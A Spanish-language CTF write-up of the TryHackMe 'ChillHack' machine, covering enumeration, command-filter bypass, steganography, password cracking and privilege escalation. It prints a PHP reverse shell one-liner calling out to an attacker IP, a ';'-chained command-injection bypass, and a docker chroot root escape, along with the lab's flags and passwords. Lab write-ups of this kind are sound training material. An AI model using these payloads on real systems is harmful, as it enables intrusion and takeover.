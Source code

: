 # ChillHack
Máquina resuelta de *TryHackMe* en la que se trabaja la enumeración y *fingerprinting*, *reverse shell* y la escucha de puertos, esteganografía, el descubrimiento de contraseñas por fuerza bruta y la escalada de privilegios.
<div>
  <img src="https://img.shields.io/badge/-Kali-5e8ca8?style=for-the-badge&logo=kalilinux&logoColor=white" />
  <img src="https://img.shields.io/badge/-Nmap-6933FF?style=for-the-badge&logo=nmap&logoColor=white" />
  <img src="https://img.shields.io/badge/-Dirsearch-005571?style=for-the-badge&logo=dirsearch&logoColor=white" />
  <img src="https://img.shields.io/badge/-php-777BB4?style=for-the-badge&logo=php&logoColor=white" />
  <img src="https://img.shields.io/badge/-Bash-4EAA25?style=for-the-badge&logo=gnubash&logoColor=white" />
  <img src="https://img.shields.io/badge/-python-3776AB?style=for-the-badge&logo=python&logoColor=white" />
  <img src="https://img.shields.io/badge/-Netcat-F5455C?style=for-the-badge&logo=netcat&logoColor=white" />
  <img src="https://img.shields.io/badge/-steghide-FF5200?style=for-the-badge&logo=steghide&logoColor=white" />
  <img src="https://img.shields.io/badge/-unzip-000000?style=for-the-badge&logo=unzip&logoColor=white" />
  <img src="https://img.shields.io/badge/-zip2john-EBAF00?style=for-the-badge&logo=zip2john&logoColor=white" />
  <img src="https://img.shields.io/badge/-john-F4B942?style=for-the-badge&logo=john&logoColor=white" />
</div>

## Objetivo

Explicar la realización del siguiente _Capture the flag_ perteneciente a la plataforma *TryHackMe*. Este desafío . Para ello, se deberá interactuar con un formulario, penetrar en la máquina y realizar una escalada de privilegios.

## Que hemos aprendido?

- Realizar *fingerprinting* y enumeración de puertos y enumeración web.
- Realizar una conxexión FTP.
- Realizar una *reverse shell*.
- Poner en escucha los puertos de la máquina.
- Obtener una *shell* a partir de un *script*.
- Crear un servidor con *python3*.
- Obtener información oculta en imágenes.
- Descomprimir archivos.
- Crackear contraseñas.
- Escalada de privilegios.

## Herramientas utilizadas

- *Kali Linux*.
- Enumeración: *Nmap*, *Dirsearch*.
- Penetración: *FTP*, *Bash*, *PHP*, *Netcat*, *Python3*, *Steghide*,  *Unzip*, *Zip2john*, *John*. 

## Steps

### Enumeración y fingerprinting

La máquina a vulnerar pertenece a la plataforma *TryHackMe*, la propia web te proporciona la IP de la máquina víctima. La conexión a esta se hace mediante una VPN que te proporciona THM y asigna una nueva IP para que tu máquina interactúe con la máquina vulnerable.

El primer paso es lanzar **Nmap** sin *ping* (-Pn) y con los *scripts* por *default* de la herramienta (-sC) para que encuentre vulnerabilidades. Además, se quieren conocer las versiones que corren en cada puerto (-sV) y el sistema operativo (-O). No se indica, específicamente, que compruebe todos los puertos pues en este tipo de máquina no será necesario.

<code>nmap -Pn -sV -O 10.10.198.179 -sC</code>

![Captura de pantalla 2025-04-12 174419](https://github.com/user-attachments/assets/b26cb007-7731-455d-a0bb-1105b85ab78b)

El comando devuelve 3 puertos TCPs abiertos:  
- En el puerto 21 corre la versión *vsftpd 3.0.3* del servicio *FTP*. Los *scripts* nos informan de que es posible acceder al servicio con el usuario 'Anonymous', el cual no necesita contraseña.
- En el puerto 22 corre la versión *Openssh 7.6p1*, en un sistema *Ubuntu*, servicio *SSH*.  
- En el puerto 80 corre el servidor *Apache 2.4.49*, en un sistema *Ubuntu*, servicio *HTTP*.

Primero nos dirigimos, desde el navegador, al puerto 80 de la IP dada, donde se puede ver una página web de deportes. Después de inspeccionarla y navegar por ella, no se encuentra ninguna pista para la explotación.

Seguidamente, con la ayuda de la herramienta **Dirsearch**, se hace una enumeración de posibles directorios y archivos que se encuentren en la web. Por la parte de directorios, aparecen varios pero llama la atención '/secret/', al cual nos dirigiremos primero. *Dirsearch* es lanzado con **Python3** indicando la IP a atacar (-u) y la lista a utilizar para la enumeración (-w); en este caso la 'directory-list-lowercase-2.3-small.txt'.

<code>sudo python3 /usr/lib/python3/dist-packages/dirsearch/dirsearch.py -u 10.10.198.179 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt</code>

![Captura de pantalla 2025-04-12 183016](https://github.com/user-attachments/assets/5d917c94-9d13-4a58-8966-c37cae458572)

En el directorio '/secret' se encuentra un panel de comandos, el cual tiene una *blacklist*, por medio de la cual, se están filtrando e impidiendo utilizar una serie de palabras. Cada vez que salta este filtro, se muestra una imagen de alerta y un mensaje preguntando '¿eres un hacker?'. Después de realizar varias pruebas, se ha comprobado que hay maneras de saltarse el filtro como concatenando un comando válido con otro por medio de ';'. U ofuscando palabras cambiando caracteres por el signo de interrogación, por poner un ejemplo.

### Vulnerabilidades explotadas

Por una parte, se realiza la conexión *FTP* indicando la IP de la víctima, donde se encuentra un documento donde se mencionan 2 posibles usuarios del sistema 'Anurodh' y 'Apaar', e informa del filtrado que ya se ha comprobado en el formulario anterior: '*Anurodh told me that there is some filtering on strings being put in the command -- Apaar*'.

<code>ftp 10.10.198.179</code>

![Captura de pantalla 2025-04-12 175910](https://github.com/user-attachments/assets/5c4f80d6-b28d-424f-b830-a074bf2a182b)

Como se comentaba en el anterior apartado, el panel de comandos no permite según que palabras, tales como  <code>cat</code> o <code>ls</code>. Por todo esto, lo más cómodo será realizar una **reverse shell**. Así pues, antes se pretende comprobar si dispone de la herramienta de **php** la máquina, para realizar el ataque con esta. Concatenando los siguiente comandos se consigue una respuesta positiva.

<code>pwd;php --version</code>

Con todo esto, solo es necesario habilitar un puerto en escucha de la máquina atacante como se ha hecho en otras ocasiones. Y visistar la página de [*Pentestmonkey*](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) para obtener el código *php* para la *reverse shell* que se introducirá en el panel.

<code>nc -lvnp 1234</code>

<code>pwd;php -r '$sock=fsockopen("10.23.92.113",1234);exec("/bin/sh -i <&3 >&3 2>&3");'</code>

![Captura de pantalla 2025-04-13 205517](https://github.com/user-attachments/assets/9e321c4d-87e2-4b48-9847-503742a49d91)

Hecho esto, se consigue una *shell* y se comprueba que somos el usuario 'www-data'. En el directorio '/home' aparecen 3 usuarios, de los cuales se tiene acceso a la carpeta de 'apaar'. Dentro de esta, se encuentra el archivo oculto '.helpline.sh', el cual es un *script* que pide introducir el nombre de la persona con la que quieres hablar y el mensaje que le quieres dejar. Puesto que no se sanitizan las posibles entradas por teclado, esto se puede utilizar para hacer aparecer la *shell* de Apaar y de esta manera, obtener acceso a su usuario.
Para ello se ejecuta el archivo con la ruta absoluta y con el usuario 'apaar'. Para que al provocar la *shell*, esta sea la de este usuario. Esto mismo se consigue introduciendo como respuesta a las preguntas del código <code>/bin/bash</code>.

<code>sudo -u apaar /home/apaar/.helpline.sh</code>

Una vez hecho esto se comprueba el usuario alcanzado y su id.

![image](https://github.com/user-attachments/assets/45d7d820-8d96-442d-9c63-f16b6a56bee9)

Ahora ya se tienen los suficientes permisos para leer el archivo 'local.txt' (/home/apaar) donde se encuentra la primera de las *flags*.

**Flag: {USER-FLAG: e8vpd3323cfvlp0qpxxx9qtr5iq37oww}**

A continuación se inspecciona el contenido del directorio '/var/www/files' en el cual hay un archivo *php* llamado 'hacker.php' que se puede ejecutar con el usuario Apaar. En este se nombra la imagen 'hacker-with-laptop_23-2147985341.jpg' y nos induce a analizarla más allá de lo que pueda mostrar a simple vista. Una referencia clara a buscar información oculta en la imagen por medio de esteganografía.

![Captura de pantalla 2025-04-13 213653](https://github.com/user-attachments/assets/52295999-99d8-499c-8ef8-48722fa0706f)

Así pues, primero se debe descargar la imagen creando un servidor desde la carpeta contenedora de la imagen con el módulo *http.server*, de **Python3**. Se indica el puerto en el que se hospedará el servidor y desde el navegador se puede comprobar la creación del servidor y la existencia de la imagen y el resto de archivos del directorio en cuestión.

<code> python3 -m http.server 8000</code>

![Captura de pantalla 2025-04-13 214254](https://github.com/user-attachments/assets/a45013b7-436a-4c73-a04e-4758747414f1)

Desde la máquina atacante se procede a descargar el *jpg*, indicando la dirección del recurso. Seguidamente se extrae la información de la imagen con la herramienta **Steghide**, la cual vuelca los datos en el archivo 'backup.zip'. Este se puede descomprimir con la herramienta **unzip** pero está protegido con contraseña, por lo que será necesario encontrar esta primero. Inicialmente se saca el *hash* del archivo con el binario **zip2john** y después se trabajará con este.

<code>wget http://10.10.118.151:8000/hacker-with-laptop_23-2147985341.jpg</code>

<code>steghide extract -sf hacker-with-laptop_23-2147985341.jpg </code>

<code>unzip backup.zip</code>

<code>zip2john backup.zip > pwd</code>

![Captura de pantalla 2025-04-13 215809](https://github.com/user-attachments/assets/0a35f730-e470-4fd8-954f-b27e4078ad1d)

Con **John** se prueban las diferentes palabras de la lista 'rockyou.txt' con el archivo 'pwd' que contiene el *hash* antes obtenido. Finalmente, la herramiensta encuentra la contraseña siendo esta 'pass1word'. Ahora ya se puede descomprimir el *zip* indicándole la *password* encontrada con el cual conseguimos el archivo 'source_code.php'. 

<code>john --wordlist=/usr/share/wordlists/rockyou.txt pwd</code>

![Captura de pantalla 2025-04-13 220330](https://github.com/user-attachments/assets/3652c4fd-c63c-444b-9d21-7608617a8926)

En el código se puede ver como en una sentencia *if* iguala una contraseña con su forma en base64 para entrar dentro de la condición. Por lo que se intentará decodificar tal *password* con el siguiente comando.

<code>echo "IWQwbnRLbjB3bVlwQHNzdzByZA==" | base64 -d</code>

![Captura de pantalla 2025-04-13 220539](https://github.com/user-attachments/assets/3a1d4338-44cc-40d6-909c-a95dc6a3773c)

Una vez obtenida la contraseña (*!d0ntKn0wmYp@ssw0rd*), se prueba con el usuario 'anurodh' y se pivota de nuevo de usuario. Además se comprueba que este pertenece al grupo *docker*, por lo que será útil para la escalada de privilegios. Esto es así porque este grupo otorga prácticamente permisos de administrador (*root*), puesto que el *daemon* de *Docker* tiene acceso completo al sistema. Así que cualquiera que esté en ese grupo podría, indirectamente, hacer cosas como *root*.

Por lo que se pretenden ver las imágenes del *Docker*, que son como plantillas para crear contenedores. De las dos existentes nos quedamos con la más reciente *Apline*. Con esto se puede ir a la página [GTFOBins](https://gtfobins.github.io/gtfobins/docker/) para *bypasear* el binario *Docker* y realizar la escalada de privilegios.

<code>docker images</code>

<code>docker run -v /:/mnt --rm -it alpine chroot /mnt sh</code>

Finalmente, se ha alcanzado el usuario *root* y solo queda dirigirse a su directorio y obtener la *flag* del archivo 'proof.txt'.

![Captura de pantalla 2025-04-13 221157](https://github.com/user-attachments/assets/3a5ccc6e-22a7-44e0-8cdd-bec5a8c2c76b)

**Flag:{ROOT-FLAG: w18gfpn9xehsgd3tovhk0hby4gdp89bg}**
